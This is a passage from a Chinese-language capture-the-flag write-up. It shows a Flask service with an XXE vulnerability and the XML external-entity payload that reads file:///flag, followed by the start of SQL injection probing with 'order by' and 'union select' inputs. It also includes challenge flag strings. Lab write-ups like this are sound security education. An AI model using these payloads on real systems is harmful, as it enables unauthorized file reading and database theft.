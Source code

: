 
#### Flag

`NSSCTF{34d2ccfc-e5fb-4259-8dd0-ca0e72bb5777}`

### (>﹏<)

#### 分析
访问靶机Curl+U拿到源码:  
```py

from flask import Flask,request
import base64
from lxml import etree
import re
app = Flask(__name__)

@app.route('/')
def index():
    return open(__file__).read()

@app.route('/ghctf',methods=['POST'])
def parse():
    xml=request.form.get('xml')
    print(xml)
    if xml is None:
        return "No System is Safe."
    parser = etree.XMLParser(load_dtd=True, resolve_entities=True)
    root = etree.fromstring(xml, parser)
    name=root.find('name').text
    return name or None

if __name__=="__main__":
    app.run(host='0.0.0.0',port=8080)
```
分析发现存在XXE漏洞，预期的xml格式是   
```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///flag">]>
<root><name>&xxe;</name></root>
```
url编码后传入得到flag:  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20250305214822.png)  

#### Flag

`NSSCTF{f0ca6b9b-4221-4f49-a018-82299b181726}`


### SQL???

#### 分析
`id = 1 order by 5`得知字段数为5,2到5都会回显  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20250306210019.png)  
尝试了`id=-1 union select 1,2,3,4,datasase()`发现会报错，猜测可能不是mysql，所以尝试sqlite语法  
